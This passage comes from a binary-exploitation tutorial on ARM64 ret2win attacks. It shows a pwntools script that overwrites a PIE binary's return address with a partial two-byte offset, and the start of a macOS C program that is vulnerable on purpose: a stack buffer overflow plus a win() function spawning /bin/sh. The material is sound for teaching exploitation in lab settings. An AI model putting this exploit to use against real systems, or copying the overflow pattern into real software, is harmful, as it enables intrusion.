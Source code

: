 ```


You can find another off-by-one example in ARM64 in [[https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/|https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/]], which is a real off-by-**one** in a fictitious vulnerability.

## With PIE

> [!TIP]
> Compile the binary **without the `-no-pie` argument**

### Off-by-2

Without a leak we don't know the exact address of the winning function but we can know the offset of the function from the binary and knowing that the return address we are overwriting is already pointing to a close address, it's possible to leak the offset to the win function (**0x7d4**) in this case and just use that offset:

![[../../../images/image (1213).png]]


```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p16(0x07d4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```
```
## macOS

### Code

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

__attribute__((noinline))
void win(void) {
    system("/bin/sh"); // <- **our target**
}

void vulnerable_function(void) {
    char buffer[64];
    // **BOF**: reading 256 bytes into a 64B stack buffer
    read(STDIN_FILENO, buffer, 256);
}

int main(void) {
    printf("win() is at %p\n", win);
```
